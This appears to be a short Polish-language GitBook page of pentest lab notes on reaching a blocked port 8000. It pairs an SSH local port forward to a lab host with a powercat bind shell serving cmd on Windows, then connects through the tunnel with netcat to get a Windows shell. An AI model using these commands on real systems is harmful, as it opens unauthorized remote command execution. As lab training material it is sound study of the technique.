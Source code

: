 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# T1 - zablokowany port 8000

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (5).jpg" alt=""><figcaption></figcaption></figure>

</div>

**Kali**

```python
ssh -N -T -L 4476:localhost:8000 jessicar@10.20.10.4

#możemy sparwdzić czy działa
netstat -tulpn
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (6).jpg" alt=""><figcaption></figcaption></figure>

</div>

**Windows**

```python
powercat -l -p 8000 -e cmd -t 360
```

**Kali**

```python
nc localhost 4476
#i mamy shella na Windows
```
